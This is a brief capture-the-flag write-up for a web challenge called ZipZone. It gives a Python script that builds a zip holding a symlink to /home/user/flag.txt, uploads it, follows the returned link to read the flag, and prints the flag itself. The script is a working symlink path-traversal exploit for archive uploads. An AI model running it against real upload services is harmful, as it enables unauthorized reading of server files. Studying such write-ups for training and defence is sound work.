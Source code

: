 ```yaml
---
ai_date: '2025-04-27 05:14:15'
ai_summary: Solved by creating a symlink in a zip file pointing to the flag file,
  exploiting path traversal.
ai_tags:
- path
- symlink
- lfi
created: 2024-08-31T13:59
points: 50
solves: 173
updated: 2024-09-01T16:01
---
```


It's a simple symlink zip challenge.

We include a symlink that upon extraction will point to `/home/user/flag.txt` allowing us to read the flag easily.

## solve

```python
import re
import io
import zipfile
import requests

target = 'https://zipzone-web.challs.csc.tf'


def add_symlink_to_zip(zip_file, symlink_name, target):
    zip_info = zipfile.ZipInfo(symlink_name)
    zip_info.create_system = 3
    zip_info.external_attr = 0o120777 << 16
    zip_file.writestr(zip_info, target)


zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, 'w') as zipf:
    add_symlink_to_zip(zipf, 'flag.txt', '/home/user/flag.txt')
zip_buffer.seek(0)
r = requests.post(target, files={'file': ('file.zip', zip_buffer)})
print(requests.get(target+re.search(r'Your file is at <a href="(/files/[^"]+)">', r.text).group(1)+"/flag.txt").text)
```

```flag
CSCTF{5yml1nk5_4r3_w31rd}
```